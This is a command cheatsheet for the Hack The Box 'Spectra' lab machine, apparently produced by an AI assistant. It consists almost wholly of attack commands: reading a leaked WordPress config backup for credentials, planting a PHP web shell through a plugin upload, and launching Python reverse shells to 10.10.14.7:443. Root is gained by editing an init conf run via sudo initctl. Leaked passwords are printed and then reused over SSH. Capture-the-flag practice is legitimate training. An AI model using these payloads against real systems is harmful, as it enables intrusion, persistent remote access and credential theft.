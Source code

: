 # HTB: Spectra — Command Cheatsheet

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.229
nmap -p 22,80,3306 -sCV -oA scans/nmap-tcpscripts 10.10.10.229
```

---

## 🤖 Hosts Setup
```bash
echo "10.10.10.229 spectra.htb" | sudo tee -a /etc/hosts
```

---

## 🔗 Enumerate [WordPress](HTTP)
```bash
# Look for .save file
curl http://spectra.htb/testing/wp-config.php.save

# Credentials found:
DB_USER=devtest
DB_PASS=devteam01

# Try login
wpscan --url http://spectra.htb/main -e ap,t,tt,u --api-token <your-token>
```

---

## 👤 WP Admin Login
```bash
# Username: administrator
# Password: devteam01
```

---

## 📂 Webshell via Plugin (Option A)
```php
# Create 0xdf.php with:
<?php system($_REQUEST["0xdf"]); ?>

# Zip it:
zip 0xdf-plug.zip 0xdf.php

# Upload via WP Admin ➝ Plugins ➝ Upload Plugin

# Access shell:
curl http://spectra.htb/main/wp-content/plugins/0xdf-plug/0xdf.php?0xdf=id
```

---

## 🚧 Reverse Shell (from WP Webshell)
```bash
# Listener
nc -lnvp 443

# Payload
curl http://spectra.htb/main/wp-content/plugins/0xdf-plug/0xdf.php \
  --data-urlencode "0xdf=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.7\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
```

---

## 🔎 Lateral Movement (Find creds)
```bash
cat /etc/lsb-release
cat /etc/autologin/passwd  # => SummerHereWeCome!!
```

---

## 🔐 [SSH](SSH) as Katie
```bash
sshpass -p 'SummerHereWeCome!!' ssh katie@10.10.10.229
```

---

## 🔒 Root Escalation
```bash
# Sudo permissions
sudo -l
# ➝ /sbin/initctl

# Editable conf:
ls /etc/init/*.conf  # choose test.conf or make your own

# Add to script block:
exec python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.7",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Start service:
sudo initctl start test
```

---

## ✅ Root Access
```bash
cat /root/root.txt
```

---

## 📑 Resources
- https://book.hacktricks.xyz/pentesting/wordpress
- https://gtfobins.github.io/gtfobins/initctl/
- https://github.com/offensive-security/exploitdb-bin-sploits/blob/master/bin-sploits/44449.rb

Let me know if you want a visual breakdown or plugin-based method only ✨

